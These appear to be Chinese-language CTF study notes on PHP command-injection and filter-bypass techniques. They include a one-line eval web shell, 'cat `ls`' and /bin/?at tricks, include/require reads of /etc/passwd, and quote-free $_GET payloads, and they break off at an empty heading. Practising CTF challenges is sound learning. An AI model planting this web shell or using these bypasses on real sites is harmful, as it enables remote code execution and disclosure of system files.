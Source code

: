 假设该目录下有index.php和flag.php

```shell
cat `ls`
```

等同于

```shell
cat flag.php;cat index.php
```

cat新姿势/bin/?at

### -- 文件构造

在ctfhub文件包含中，有一个shell,txt,也就是文件
我们令?file = shell.txt，已知shell.txt内容为

<?php eval($_REQUEST['ctfhub']);?>

request类型是由get和post构成的
在post数据里输入
ctfhub=system("ls /");
就可以执行命令.



## -- 无需括号的函数

~~~php
```php
<?php
echo 666;
print 666;
die;
include "/etc/passwd";
require "/etc/passwd";
include_once "/etc/passwd";
require_once "/etc/passwd";
~~~

## -- 过滤单引号和双引号

$_GET[1]

$_POST[a]

此处为何参数不需要单引号或双引号也能用，不太清楚，但的确能用。

## -- 无参数文件读取

> 参考
>
> https://skysec.top/2019/03/29/PHP-Parametric-Function-RCE/

### 思路
